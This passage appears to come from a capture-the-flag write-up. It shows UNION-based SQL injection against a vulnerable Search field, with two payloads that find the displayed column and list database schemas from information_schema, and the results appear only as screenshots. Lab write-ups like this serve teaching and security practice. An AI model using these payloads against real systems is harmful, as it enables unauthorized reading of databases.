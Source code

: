 From the result, I can see that the **Search** field is vulnerable with the **UNION query** type with the number of required columns is **4**. Therefore, I will try to input this payload to see how would it display:

```
'UNION SELECT NULL,NULL,'A',NULL#
```

![Untitled](/assets/CyberCrafted%20images/Untitled%2011.png)

OK, the `'A'` character placed at the 3rd `NULL` is displayed at the 2nd column. Next, I list all the tables from each database:

```
'UNION SELECT NULL,table_schema,NULL,NULL FROM information_schema.tables#
```

![Untitled](/assets/CyberCrafted%20images/Untitled%2012.png)

![Untitled](/assets/CyberCrafted%20images/Untitled%2013.png)

![Untitled](/assets/CyberCrafted%20images/Untitled%2014.png)
